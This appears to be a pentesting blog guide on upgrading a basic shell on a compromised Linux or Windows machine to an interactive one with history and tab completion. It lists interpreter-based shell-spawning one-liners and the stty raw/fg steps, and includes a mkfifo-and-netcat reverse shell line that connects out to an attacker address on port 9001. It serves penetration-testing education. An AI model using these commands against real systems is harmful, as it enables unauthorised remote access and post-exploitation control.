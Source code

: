 ```yaml
---
title: "Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters"
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
---
```


## Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify Installed Language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:

```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```

### Examples

Below are commands to help upgrade the basic TTY shell:

```bash
# Use Python 3 to spawn an upgraded shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Use Python 2 to spawn an upgraded shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Alternative approach with os.system
echo os.system('/bin/bash')

# Spawn an interactive shell with /bin/sh
/bin/sh -i

# Use Perl to execute a shell
perl -e 'exec "/bin/sh";'

# Use Ruby to execute a shell
ruby -e 'exec "/bin/sh"'
```

### If Python Isn't Installed, Use:

```shell
# Use the script command to spawn an upgraded shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Reverse Shell Example

```bash
# Simple reverse shell using Netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.xxx.xxx 9001 >/tmp/f
```

### Steps to Get an Autocomplete Shell

1. After choosing one of the methods above to upgrade your TTY shell, suspend it using:

    ```bash
    ctrl-z
    ```

2. On the attacker's machine, run:

    ```bash
    stty raw -echo
    stty -a  # Verify current terminal settings
    ```

3. Bring the shell to the foreground:

    ```bash
    fg
    ```

4. Press `Enter` twice to reactivate the session.

Now you should have a shell with autocomplete, history, and better usability features.

